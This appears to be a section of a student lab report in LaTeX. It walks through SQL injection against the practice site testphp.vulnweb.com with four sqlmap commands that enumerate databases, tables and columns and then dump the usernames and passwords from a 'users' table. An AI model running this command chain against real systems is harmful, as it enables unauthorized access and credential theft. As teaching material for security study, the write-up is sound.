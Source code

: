 \documentclass{article}
\begin{document}
\newpage
\section{Detailed Exploitation Using SQLMap}

In the first phase of the SQL injection exploitation, we enumerated available databases using SQLMap with the following command:
\begin{lstlisting}
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --batch
\end{lstlisting}

This allowed us to identify two databases named \texttt{acuart} and \texttt{information\_schema}, with \texttt{acuart} being particularly interesting due to the likelihood of containing user-related data.

\texttt{[image: Documents/tp3php/4.png]}

Next, we enumerated tables within the database \texttt{acuart}. We executed the following SQLMap command:
\begin{lstlisting}
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables --batch
\end{lstlisting}

Several tables were discovered, including \texttt{users}, \texttt{products}, \texttt{artists}, and \texttt{guestbook}. Among these, the \texttt{users} table appeared most relevant, as it likely contained sensitive login credentials.

\texttt{[image: Documents/tp3php/5.png]}

Following this discovery, we enumerated the columns within the \texttt{users} table to identify specific data fields. The command executed was:
\begin{lstlisting}
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns --batch
\end{lstlisting}

This step revealed important columns such as \texttt{uname} (username) and \texttt{pass} (password), critical for authentication and further exploitation.

\texttt{[image: Documents/tp3php/6.png]}

To proceed further, we extracted actual user credentials from the \texttt{users} table by targeting these columns directly. We ran:
\begin{lstlisting}
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C uname,pass --dump
\end{lstlisting}
\end{document}
